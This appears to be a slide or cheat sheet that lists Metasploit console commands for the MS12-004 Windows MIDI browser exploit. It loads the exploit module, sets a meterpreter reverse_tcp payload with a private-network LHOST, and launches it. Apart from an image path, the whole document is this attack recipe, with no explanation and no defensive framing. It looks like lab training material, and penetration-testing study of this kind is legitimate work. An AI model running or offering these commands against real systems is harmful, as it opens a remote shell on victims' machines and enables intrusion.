

# ms12-004
search ms12-004
show options
use exploit/windows/browser/ms12_004_midi
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.2.128
show targets
exploit